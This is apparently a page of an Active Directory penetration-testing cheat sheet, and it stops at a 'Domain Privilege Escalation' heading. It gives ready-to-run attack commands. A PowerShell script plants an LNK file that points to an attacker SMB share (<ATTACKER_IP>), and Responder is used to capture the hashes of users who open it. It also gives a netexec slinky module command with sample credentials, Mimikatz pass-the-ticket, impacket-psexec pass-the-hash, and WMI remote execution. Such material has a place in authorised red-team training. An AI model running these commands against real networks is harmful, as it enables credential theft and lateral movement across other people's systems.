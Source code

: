 
## LNK FILE ATTACKS

### Creating LNK files through Powershell
```ps1
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\<ATTACKER_IP>\@test.png"
$lnk.WindowsStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```
After creating the file, put the file into any share that we think would have the highest chance of being accessed, afterwards we just need to start-up responder and wait for domain users to start interacting with the malicious file!
```sh
sudo responder -I tun0 -dP
```

### Creating a LNK file through netexec
```sh
netexec smb <TARGET_IP> -d test.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=<ATTACKER_IP>
```
---

## Lateral Movement

### Using Pass-the-Ticket with Mimikatz on the compromised machine

```ps1
mimikatz "privilege::debug" "kerberos::ptc <TICKET_FILE>" "misc::cmd"
```

### Using Pass-the-Hash with PsExec

```sh
impacket-psexec test.local/Administrator@10.10.10.2 -hashes <LMHASH>:<NTHASH>
```

### Using WMI for Remote Execution

```sh
wmic /node:"10.10.10.2" /user:"test.local\fcastle" /password:"Password1" process call create "cmd.exe /c whoami"
```

---

## Domain Privilege Escalation
